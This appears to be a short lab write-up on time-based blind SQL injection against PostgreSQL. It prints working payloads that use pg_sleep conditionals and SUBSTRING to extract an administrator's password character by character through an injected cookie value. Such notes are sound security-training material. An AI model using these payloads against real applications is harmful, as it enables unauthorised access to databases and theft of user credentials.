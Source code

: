 # Blind SQL injection with time delays and information retrieval

#BLINDSQLI 
#WRITEUP 

The lab scenario is the same as [[Blind SQL injection with time delays]] but in this case the attacker must retrieve the password of the `administrator` user in the `users` table that contains an `username` and `password` columns.

## Trigger a time delay

First try to trigger a time delay with one of the payloads of [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) to determine the database type and construct an accurate query to exploit the vulnerability.

Testing the payloads I determined that the database type is `PostgreSQL` as I was able to trigger a time delay.

```SQL
' ; SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END --
```

Inject the cookie value with the URL encoded payload.

## Construct the query
```SQL
SELECT CASE WHEN ((SELECT COUNT(username) FROM users WHERE username = 'administrator' AND SUBSTRING(password, 1, 1) > 'm')=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
```

## Retrieve data

Inject the cookie value with the URL encoded payload.

```SQL
' ; SELECT CASE WHEN ((SELECT COUNT(username) FROM users WHERE username = 'administrator' AND SUBSTRING(password, 1, 1) != 'm')=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```



